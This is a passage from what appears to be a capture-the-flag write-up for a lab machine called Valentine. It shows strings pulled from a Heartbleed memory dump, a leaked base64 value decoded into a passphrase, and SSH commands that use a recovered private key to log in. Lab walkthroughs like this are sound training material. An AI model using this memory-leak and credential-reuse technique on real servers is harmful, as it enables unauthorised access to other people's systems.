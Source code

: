 ```bash
strings hb_dump.bin

#Interesting findings:
valentine.htb1                                                                                                                                   
valentine.htb0                                                                                                                                   
180206004525Z                                                                                                                                    
190206004525Z0J1                                                                                                                                 
valentine.htb1                                                                                                                                   
valentine.htb0

valentine.htb1
valentine.htb0
180206004525Z
190206004525Z0J1
valentine.htb1
valentine.htb0

b9597dc55b21a2759b480fb102f9999a
```

Dumping it a few time, we find this whiles looking in the file with less:

```bash
less /home/kali/.msf4/loot/20250904114206_default_10.10.10.79_openssl.heartble_443214.bin

Referer: https://127.0.0.1/decode.php
Content-Type: application/x-www-form-urlencoded
Content-Length: 42

$text=aGVhcnRibGVlZGJlbGlldmV0aGVoeXBlCg==
```

Let’s decode this using their decoder:

```bash
Your input:

aGVhcnRibGVlZGJlbGlldmV0aGVoeXBlCg==

Your encoded input:

heartbleedbelievethehype
```

Let’s try ssh again.

```bash
ssh -i hype.key hype@10.10.10.79

#version mismatch
#try;
ssh -i hype.key -o PubkeyAcceptedKeyTypes=+ssh-rsa hype@10.10.10.79
```
